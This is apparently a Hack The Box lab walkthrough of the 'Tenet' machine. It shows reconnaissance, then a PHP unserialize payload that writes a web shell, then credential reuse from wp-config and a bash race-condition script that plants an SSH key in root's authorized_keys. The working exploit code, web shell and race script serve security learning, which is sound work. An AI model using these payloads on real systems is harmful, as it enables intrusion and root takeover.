<style> body{ background-color: black; color: white; } </style>
# Hackthebox - Tenet
First I run Nmap to scan for open ports.
```bash
# Nmap 7.91 scan initiated Sun Jun 27 14:19:15 2021 as: nmap -sC -sV -oA nmap/nmap 10.129.129.20
Nmap scan report for 10.129.129.20
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 27 14:19:31 2021 -- 1 IP address (1 host up) scanned in 15.52 seconds
```

Port 80 which is HTTP is open so I open the page and got only Apache ubuntu default page.


Next I started a gobuster to look for directories. Gobuster gets a direcotry called **wordpress**.


I open it and it looks like it is broken. It looks like it is linking stuff from **tenet.htb**.


I added **tenet.htb** to my hosts file and the page is working. Next I startup a Wpscan to scan the wordpress site.


I click through the website and see an interesting comment that hints at a php file and a backup file.


I try accessing the **sator.php*  file and got a hit.                                                                              


Then there is the backup file. The usual syntax for a backfile is **filename.bak**. So I try accessing **sator.php.bak** and it worked!


I download the file and the content of it.
```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

The file uses unserialize on a user's input which is unsafe, read more here(https://www.sjoerdlangkemper.nl/2021/04/04/remote-code-execution-through-unsafe-unserialize/). I can call the **__destruct()** function which calls **file_put_contents** which means I can put arbitrary file to the server.

So I craft the payload.
```php
<?php
class DatabaseExport{
  public $user_file = 'rev.php';
  public $data = '<?php system($_REQUEST["cmd"]); ?>';
}
print urlencode(serialize(new DatabaseExport)); 
?>
```

Ran the script.


Put the payload to the GET parameter.


Test the file and I got command execution.


I execute a reverse shell bash command.                                                                                                   


Setup a listener using nc and got a shell as **www-data**.                                                            


Next I try finding config files and got **wp-config**. I try searching for a password and got one. I also check the **/home** directory for potential usernames that I can use to pair with the password.


I try SSH into the box with the user neil and the password above and got a shell as the user neil.                                  


Now I run **sudo -l** as the user neil and he can run **enableSSH.sh** as sudo.


I outputed the content of the file and analyze what it does.
```bash
#!/bin/bash

checkAdded() {

	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
		/bin/echo "Successfully added $sshName to authorized_keys file!"
	else
		/bin/echo "Error in adding $sshName to authorized_keys file!"
	fi

}

checkFile() {

	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
		/bin/echo "Error in creating key file!"
		if [[ -f $1 ]]; then /bin/rm $1; fi
		exit 1
	fi
}

addKey() {

	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
	(umask 110; touch $tmpName)
	/bin/echo $key >>$tmpName
	checkFile $tmpName
	/bin/cat $tmpName >>/root/.ssh/authorized_keys
	/bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

It looks pretty straight forward. It is outputing the key variable to the root's SSH public key. But it is doing it through the **/tmp** directory. If I can overwrite the file in /tmp directory before it outputs the file to the root's SSH key, I can put any key I want.

So I create a SSH key pair, leaving the passphrase empty.


Because this is a race condition, I need to do it really fast. So I created a bash script to check if a file exists in the **/tmp** directory which only contains directories and overwrite it with my public SSH key using an infinite while loop.
```bash
#!/bin/bash
KEY="ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDagDI0wEezhuvADA1jAKQDPOA8Sl9SVNABZ71PTTb/FlDGoOOOhu3AruhhVsCZmsDrosy+nF7nBo5qn61e4prCAowLCjf6fzEomp7CRGQfOSSrEyDYsZjltEC+7q9Upl9wM/PrKom1CJQSaGccauL7oWYx19VKjMEbae+zPpMo6rFZK7b5+VyqVhYVF1yT+XN36lSNTDGcyZHisVJWj47eUqAtotUWDgt4+Eb4cKcx0ODfWLGkG/CrEU+7sSMCUnRJysnWRvdo+2FjMbwUdZEeGQvida8+/ir7x4BmAjKWzJ+XlTIidnAc2K/NuBe0ZzgY5RG5UbN9B7XcPjSdUQFtaBITRHMGddTzEVDcOAyVmbgAWdzgOCM0yuyoRPE3ROBkyTwpfq9jL4Wre0zmek7Trtimf/Hjcadn/ShFwDDXAYksOu0d1bsVI8wnC828utLgg9HErZ9t+FZi/AKg0o3hZyCGgi9ES59vQNhwRX6Webn4Y1HwRQyEh3r+AJIFx2k= htb-jixprotiger@htb-m9plirztss"
while :
do
	for f in $(find /tmp -maxdepth 1 -type f); do
		echo $KEY > $f
	done
done
```

I execute my script and run the enableSSH.sh as sudo a couple times to make sure my script overwrites it.


I SSH to the box as root with my SSH key and got a shell as root.

